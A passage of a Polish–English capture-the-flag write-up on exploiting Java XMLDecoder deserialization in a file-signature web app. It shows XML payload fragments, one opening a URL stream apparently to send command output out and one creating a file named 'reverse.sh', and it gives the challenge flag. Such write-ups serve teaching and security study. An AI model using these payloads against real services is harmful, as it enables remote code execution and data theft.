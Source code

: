 ```xml

    <object class="java.net.URL">
        <object idref="command"/>
        <void method="openStream"/>
    </object>
</java>
```

Dzięki temu mogliśmy użyć komendy `find` aby znaleźć plik `flag` a potem wypisać go przez `cat` i uzyskać `flag{ser1l1azati0n_in_CTF_is_fUN}`

###ENG version

In the task there is a webpage which generates a signature for a selected file, and lets us verify the signature.
It is important to notice that signature files are:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">
 <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
   <string>hash</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>da39a3ee5e6b4b0d3255bfef95601890afd80709</string>
   </void>
  </void>
  <void class="models.CTFSignature" method="getField">
   <string>sig</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>12a626d7c85bcc21d9f35302e33914104d8329a0</string>
   </void>
  </void>
 </object>
</java>
```

And therefore the signature object serialization, and probably deserialization, is handled by XMLEncoder and XMLDecoder.
They have the same type of vulnerability as Python Pickle - deserialization can execute any code as long as the input file is properly prepared.

For example we can create any object using `<object>` tag and then pass the constructor arguments to it, eg:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
</object>
```

Will execute `new PrintWriter("reverse.sh");`
